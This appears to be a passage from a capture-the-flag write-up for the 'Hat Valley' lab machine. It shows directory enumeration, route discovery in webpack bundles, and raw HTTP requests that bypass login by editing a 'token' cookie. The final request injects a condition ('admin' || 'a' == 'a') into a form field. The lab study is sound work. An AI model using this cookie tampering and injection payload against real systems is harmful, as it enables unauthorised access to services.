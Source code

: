 We can use a tool like `dirsearch` to check a directory
- so we can run `dirsearch -u http://hat-valley.htb.js`
    - we get `/js/app`, `/js/app.js`, `/js/custom.js`

In the source, we're seeing many references to `webpack`
- This is a module / script bundler: https://webpack.js.org/
- and is referenced in `js/app.js`

In `app.js` we can see some `eval` statements as well
- inside of those, we see refs to `routes`
    - and there's a route for `/hr` and `/leave`
        - `/leave` redirects to `/hr`


We go to `hat-valley.htb/hr` and it resolves to a login portal!

We can submit a login attempt via an HTTP POST request:
```
POST /api/login HTTP/1.1
Host: hat-valley.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 67
Origin: http://hat-valley.htb
DNT: 1
Connection: keep-alive
Referer: http://hat-valley.htb/hr/
Cookie: token=guest
Sec-GPC: 1

{"username":"admin","password":"admin"}
```

There is a cookie `token` with a default value of `guest
- if we change it to anything else and reload the page we are redirected to `http://hat-valley.htb/dashboard`

After we log into `hat-valley.htb/dashboard`
- We can go to `hat-valley.htb/leave`
    - here we can submit POST requests to 'Request Leave'


The HTTP POST request looks like this:
```
POST /api/submit-leave HTTP/1.1
Host: hat-valley.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 72
Origin: http://hat-valley.htb
DNT: 1
Connection: keep-alive
Referer: http://hat-valley.htb/leave
Cookie: token=admin
Sec-GPC: 1

{reason":"admin' || 'a' == 'a","start":"13/12/2022","end":"14/12/2022"}
```
